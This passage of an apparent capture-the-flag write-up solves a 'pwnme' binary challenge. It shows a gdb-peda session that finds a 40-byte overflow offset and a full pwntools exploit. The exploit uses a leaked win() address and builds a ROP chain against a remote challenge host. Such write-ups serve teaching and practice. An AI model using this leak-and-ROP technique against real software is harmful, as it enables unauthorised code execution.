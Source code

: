 Ok it literally leaks the address of `win()`. Exploitation is trivial, again we find the crash offset:

```
$ gdb ./pwnme
gdb-peda$ pattern_create 64
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH'
gdb-peda$ r
How about reading a leak? 0x55555555522e
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH
Stopped reason: SIGSEGV
0x0000555555555281 in vuln ()
gdb-peda$ bt
#0  0x0000555555555281 in vuln ()
#1  0x4141464141304141 in ?? ()
gdb-peda$ pattern_offset 0x4141464141304141
4702116732032008513 found at offset: 40
```

Again at offset `40`. Exploit follows:

```python

from pwn import *

local = False

fname = "./pwnme"
hostname = '0.cloud.chals.io'
port = 22287
offset = 40

binary = context.binary = ELF(fname)

if local:
    p = process(fname)
else:
    p = remote(hostname, port)

leak = int(p.recvline().decode().split("? ")[1],16)
base = leak - (binary.sym['win'] - binary.address)
log.info(f"leaked addr: {hex(leak)}")
log.info(f"base addr: {hex(base)}")

binary.address = base
rop = ROP(binary)
rop.raw(b"A" * offset)
rop.raw(p64(rop.find_gadget(['ret'])[0]))
rop.raw(p64(rop.find_gadget(['pop rdi','ret'])[0]))
rop.raw(p64(0xdeadbeef))
rop.raw(p64(leak))
p.sendline(rop.chain())
p.interactive()
```
